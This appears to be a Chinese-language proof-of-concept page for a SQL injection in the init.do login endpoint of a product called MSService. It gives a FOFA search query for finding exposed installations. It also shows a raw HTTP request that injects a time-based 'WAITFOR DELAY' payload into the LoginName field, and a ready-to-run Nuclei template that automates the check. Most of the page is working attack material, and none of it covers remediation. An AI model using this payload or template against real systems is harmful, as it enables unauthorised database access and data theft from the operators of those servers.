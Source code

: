 ## MSService服务init.do接口处存在SQL注入漏洞

MSService 服务init.do接口处存在SQL注入漏洞。这可能导致泄露敏感数据、破坏数据库完整性，甚至获取对数据库的完全控制。

## fofa

```
title="MSService 服务"
```
![image](https://github.com/user-attachments/assets/ff8e1f52-0034-4ae3-a07d-9f58805c00af)

## poc

```yaml
POST /init.do HTTP/1.1
Content-Length: 70
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:52.0) Gecko/20100101 Firefox/52.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Upgrade-Insecure-Requests: 1
Content-Type: application/json
Connection: close

{"LoginName":"1001' WAITFOR DELAY '0:0:3'-- znSL","password":"123456"}
```

![image-20240628170742181](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202406281707254.png)

### Nuclei POC

```yaml
id: MSService-init_do-SQL
info:
  name: MSService 服务init.do接口处存在SQL注入漏洞
  author: kingkong
  severity: high
  metadata:
    fofa-query: title="MSService 服务"

http:
  - raw:
      - |
        POST /init.do HTTP/1.1
        Host: {{Hostname}}
        User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:52.0) Gecko/20100101 Firefox/52.0
        Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
        Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
        Accept-Encoding: gzip, deflate
        DNT: 1
        Upgrade-Insecure-Requests: 1
        Content-Type: application/json
        Connection: close

        {"LoginName":"1001' WAITFOR DELAY '0:0:3'-- znSL","password":"123456"}

    matchers-condition: and
    matchers:
      - type: dsl
        dsl:
          - "duration>=3  && duration<=6 && status_code==200"
```

